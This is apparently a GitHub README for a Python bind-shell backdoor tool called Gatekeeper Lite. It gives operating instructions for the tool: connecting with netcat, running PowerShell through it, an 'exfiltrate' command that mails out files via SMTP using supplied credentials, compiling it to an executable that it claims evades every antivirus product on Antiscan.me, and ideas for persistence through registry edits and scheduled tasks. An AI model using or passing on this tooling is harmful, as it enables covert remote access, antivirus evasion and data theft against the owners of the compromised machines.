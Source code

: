 # Gatekeeper Lite Backdoor
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor?ref=badge_shield)
### Fully functioning bind-type backdoor
![MayorSecBackdoorLite](/images/backdoorlite.png)

This backdoor is a fully functioning bind shell and lite version of my full functioning Gatekeeper tool. It can be ran with Python or compiled to an exe and has full functioning command line access with Windows and Linux.  When compiled it bypasses all Antivirus solutions on Antiscan.me.

## Usage
Connect using Netcat after changing the port value to whatever you wish (default is 8180)

```nc ipaddr port```

Once connected you can utilize commands as normal.  If you wish to use Powershell commands, make sure to lead with 

```powershell <command here>```

This will execute the command.  Note that some Powershell functionality may crash the Netcat session requiring a reconnect.  

## SMTP Exfiltration
![SMTPExfil](/images/smtpexfil.png)

MayorSec Backdoor has built in exfiltration functionality via SMTP.  Use the below format from the command line.

```exfiltrate filename <sender_email> <sender_email_password> <receiver_email>```

## Compilation
This tool can be ran on systems that have Python3 installed, or can be compiled to exe using Pyinstaller.  I recommend using the GUI version of Pyinstaller called "Auto Py to EXE" which allows for the easy addition of an exe icon for the application.  

## Notes
Windows will likely require a firewall rule in order to utilize this tool on machines with firewall enabled.  You can achieve persistence through typical manual Registry edits, scheduled tasks, etc. 


## License
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fdievus%2FMayorSecBackdoor?ref=badge_large)
